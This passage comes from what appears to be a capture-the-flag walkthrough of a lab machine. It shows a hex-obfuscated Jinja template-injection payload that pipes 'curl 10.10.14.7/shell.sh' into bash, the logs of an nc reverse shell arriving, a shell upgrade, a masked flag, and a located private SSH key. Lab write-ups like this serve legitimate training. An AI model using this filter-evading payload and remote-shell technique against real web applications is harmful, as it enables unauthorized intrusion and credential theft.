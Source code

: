 

Then I used this payload to `curl` it and pipe it to Bash:



    {% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("curl 10\x2e10\x2e14\x2e7/shell\x2esh | bash")["read"]()%}



Running it gave the request at the webserver:



    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.243 - - [17/Jun/2021 14:51:27] "GET /shell.sh HTTP/1.1" 200 -



And then a shell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.243] 33582
    bash: cannot set terminal process group (85021): Inappropriate ioctl for device
    bash: no job control in this shell
    chiv@spider:/var/www/webapp$



Standard shell upgrade:



    chiv@spider:/var/www/webapp$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'   
    chiv@spider:/var/www/webapp$ ^Z             
    [1]+  Stopped                 nc -lnvp 443  
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443                                
                reset                           
    reset: unknown terminal type unknown        
    Terminal type? screen                       
    chiv@spider:/var/www/webapp$



There's `user.txt`:



    chiv@spider:~$ cat user.txt
    9ecac790************************



There's also an SSH key for chiv:



    chiv@spider:~$ ls -l .ssh/
    total 8
    -rw-r--r-- 1 chiv chiv  393 May  4 15:42 authorized_keys
    -rw------- 1 chiv chiv 1679 Apr 24  2020 id_rsa
